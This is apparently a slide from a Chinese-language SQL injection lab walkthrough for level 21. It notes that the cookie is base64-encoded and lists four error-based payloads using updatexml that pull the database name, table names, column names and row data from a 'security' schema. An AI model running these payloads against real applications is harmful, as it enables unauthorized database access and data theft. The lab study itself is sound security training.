

# 二十一关
这题看上去貌似和之前是一样的，登录之后同样会显示你的信息，但是cookie后面的值是被进行了base64编码的，那么我吧我的payload也进行一次编码，然后再做尝试

判断库名：admin ‘and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) and ’1‘='1

判断表名：admin 'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1) and '1'='1

判断列名： 'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1) and '1'='1

判断数据： 'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)and '1'='1